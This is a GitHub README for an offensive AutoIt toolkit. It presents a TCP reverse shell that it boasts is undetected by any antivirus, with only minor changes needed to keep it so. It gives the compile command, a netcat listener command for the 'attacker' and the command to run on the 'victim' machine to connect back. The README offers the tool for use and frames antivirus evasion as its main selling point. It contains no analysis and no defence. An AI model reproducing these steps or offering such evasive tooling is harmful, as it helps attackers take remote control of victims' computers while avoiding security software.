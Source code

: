<div id="top"></div>
<div align="center">
  <a href="https://github.com/0xvinix/offensive-autoit">
    <img src="https://i.imgur.com/4Rapnym.png" alt="Logo" width="500" height="200">
  </a>

  <h3 align="center">Hacking AutoIt</h3>

  <p align="center">
    Simple AutoIt tools for offensive security.
    <br />
    <br />
    <a href="https://github.com/othneildrew/Best-README-Template">Author Linkedin</a>
  </p>
</div>
<br>

<!-- REVERSE SHELL -->
## Simple Reverse Shell

This is yet another simple TCP connection based reverse shell code, however, this is not detected by antivirus systems until today (23/03/2022). Possibly by its date of use, the code will already be quite detectable, but it only takes a few small modifications to make it not.

[![Everything Is AWESOME](https://yt-embed.herokuapp.com/embed?v=QEXk-N8lQ7g)](https://www.youtube.com/watch?v=QEXk-N8lQ7g "Simple Reverse Shell")

<br>
<h3> How to compile 🔨</h3>

To compile the code is very simple, you just need AutoIt v3 on your machine, which you can download from the link below.

https://www.autoitscript.com/site/autoit/downloads/

* cmd
  ```sh
  "C:\Program Files (x86)\AutoIt3\Aut2Exe\Aut2exe_x64.exe" /in "reverse_shell.au3" /console
  ```
<br>
<h3> Usage🔌</h3>

After compiling, just open a port using netcat.

* Attacker
  ```sh
  nc -vnlp 443
  ```
And on the victim's machine, run the compiled file passing your ip and port as an argument.

* Victim
  ```sh
  reverse_shell.exe 127.0.0.1 443
  ```
<br>
<h3> Av Detection (23/03/2022) 🐛</h3>

As already mentioned, until the date of creation of this repository, this code is completely undetectable by any antivirus.

<img src="https://antiscan.me/images/result/m3hwPh2nQ4dC.png">

<p align="right">(<a href="#top">back to top</a>)</p>

